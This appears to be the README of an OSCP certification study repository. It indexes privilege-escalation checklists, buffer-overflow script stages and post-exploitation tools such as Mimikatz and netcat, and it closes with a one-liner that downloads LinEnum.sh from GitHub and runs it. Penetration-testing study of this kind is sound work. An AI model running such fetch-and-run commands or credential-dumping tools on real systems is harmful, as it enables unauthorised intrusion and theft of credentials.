 # All about OSCP

----

#### Custom checklists

- Linux privilege escalation
- Windows privilege escalation
- Windows post exploitation
- Windows 32 bit stack buffer overflow

#### Windows 32 bit stack buffer overflow

*Example scripts that are highly and easily customizable*

- Skeleton script
- Fuzzer
- Overflow EIP
- Sending unique pattern
- Sending bad characters
- Full script

#### Windows post exploitation
- Credential gathering
  - Compiled Mimikatz32.exe
  - Compiled Mimikatz64.exe
- Privilege escalation
  - Sherlock.ps1
  - Powerup.ps1
  - Priv checker (.exe/.py)
  - Compiled nc/nc64

#### Linux post exploitation

- Linenum.sh
- linuxprivchecker.py
- unix-priv-checker.sh

#### Stupid one liners that saved me some time

- Automate LinEnum.sh: download > chmod > run > output to file

```
wget https://raw.githubusercontent.com/Arken2/Everything-OSCP/master/Linux%20Post%20exploitation/LinEnum.sh ; chmod +x LinEnum.sh ; ./LinEnum.sh > LinEnum-Output.txt
```
